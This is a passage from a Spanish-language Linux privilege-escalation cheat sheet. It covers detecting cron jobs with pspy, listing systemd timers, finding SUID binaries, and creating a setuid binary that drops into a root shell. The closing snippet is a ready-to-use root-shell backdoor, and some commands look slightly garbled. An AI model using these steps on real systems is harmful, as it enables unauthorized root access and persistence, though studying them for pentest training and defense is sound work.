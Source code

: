 ```sh
```

Puedes usar `pspy` para detectar un trabajo CRON.

```sh
./pspy64 -pf -i 1000
```

### Systemd timers

```sh
systemctl list-timers --all

NEXT                          LEFT     LAST                          PASSED         Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago     
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago      Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days 3 timers listed.
```

# SUID

`SUID/Setuid` significa "establecer ID de usuario al ejecutar", está habilitado de forma predeterminada en todas las distribuciones de Linux. Si se ejecuta un archivo con este bit, el propietario cambiará el `uid`. Si el propietario del archivo es root, el `uid` se cambiará a root incluso si se ejecutó desde el usuario bob. El bit SUID está representado por una `s`.

```sh
╭─swissky@lab ~ 
╰─$ ls /usr/bin/sudo -alh                 

-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```
### Find SUID binaries

```sh
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; 
find / -uid 0 -perm -4000 -type f 2>/dev/null
```
### Crear SUID binary

| Funcion    | Descripcion                                                       |
| ---------- | ----------------------------------------------------------------- |
| setreuid() | establece ID de usuario reales y efectivos del proceso de llamada |
| setuid()   | establece el ID de usuario efectivo del proceso de llamada        |
| setgid()   | establece el ID de grupo efectivo del proceso de llamada          |

```sh
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right 
sudo chmod +s /tmp/suid # setuid
```
